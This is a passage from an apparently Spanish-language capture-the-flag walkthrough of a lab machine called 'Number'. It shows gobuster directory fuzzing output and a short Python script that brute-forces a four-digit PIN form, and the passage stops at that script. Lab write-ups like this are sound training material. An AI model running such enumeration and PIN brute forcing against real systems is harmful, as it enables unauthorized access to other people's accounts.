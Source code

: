 Vemos que el puerto `22` está abierto, pero no tenemos ningún usuaio para poder conectarnos.

### Inspección
Como no hay mucho que ver en la página comenzaré por hacer **`fuzzing`**, es decir, con un diccionario iré probando rutas y archivos para ver si existen en el sistema. Para este proceso utilizaré **`GoBuster`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Number]
└─# gobuster dir -u "http://192.168.1.117" -w /usr/share/wordlists/external/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -b 404,503
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.117
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/external/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,503
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
2023/05/29 11:40:39 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11]
/admin                (Status: 301) [Size: 185] [--> http://192.168.1.117/admin/]
/robots.txt           (Status: 200) [Size: 11]
/pin                  (Status: 301) [Size: 185] [--> http://192.168.1.117/pin/]
```

Tras un rato nos encontramos con estos resultados, vamos a dirigirnos a la ruta `admin`:

![admin](/assets/img/imgs/number/admin.png)

Vemos un panel para poder iniciar sesión, por desgracia no tenemos ningún usuario y mucho menos una contraseña, vamos a ver qué tenemos en la ruta `pin`:

![pin](/assets/img/imgs/number/pin.png)

Nos pide un **PIN** de cuatro números, como son pocos podemos tratar de hacer fuerza bruta, para ello creé este **`script`**:

```python
import requests

with open("wordlist.txt", "r") as f:
    lines = f.readlines()
    for number in lines:
        number = number.replace("\n", "")
        data = {
            "password": f"{number}",
        }

        r = requests.post("http://192.168.1.117/pin/pincheck.php", data=data)
        if r.text != "PIN WRONG.":
            print(f"PIN: {number}")
            break
```